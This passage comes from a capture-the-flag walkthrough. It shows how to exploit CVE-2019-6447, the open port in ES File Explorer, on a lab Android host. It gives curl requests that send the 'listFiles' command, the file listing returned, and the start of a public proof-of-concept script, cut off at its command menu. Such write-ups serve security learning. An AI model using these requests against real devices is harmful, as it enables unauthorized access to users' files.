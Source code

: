 #### Manually

CVE-2019-6447 is really just that the ES File Explorer port gives access to a
lot of the system, and so if it can be contacted, a lot of information will
leak from the system. [This
GitHub](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln) has a nice
Python script, but I can also do it with `curl`.

Just requesting that port returns an error:

    
    
    oxdf@parrot$ curl 10.10.10.247:59777
    FORBIDDEN: No directory listing.
    

The service takes a JSON POST payload with commands like `listFiles`,
`listPics`, `listVideos`, etc.

`listFiles` returns a lot:

    
    
    oxdf@parrot$ curl 10.10.10.247:59777 -d '{"command": "listFiles"}'
    [
    {"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", },  
    {"name":"vndservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
    {"name":"vendor_service_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },       
    {"name":"vendor_seapp_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_property_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
    {"name":"vendor_hwservice_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
    {"name":"vendor_file_contexts", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
    {"name":"vendor", "time":"3/25/20 12:12:33 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
    {"name":"ueventd.rc", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"5.00 KB (5,122 Bytes)", }, 
    {"name":"ueventd.android_x86_64.rc", "time":"6/26/21 03:03:38 PM", "type":"file", "size":"464.00 Bytes (464 Bytes)", }, 
    {"name":"system", "time":"3/25/20 12:12:31 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
    {"name":"sys", "time":"6/26/21 03:03:38 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", },
    ...[snip]...
    

#### Script

Having seen how to just interact with the port over `curl`, the script makes
it a bit easier to organize:

    
    
    oxdf@parrot$ python poc.py list
    
    ######################
    # Available Commands #
    ######################
    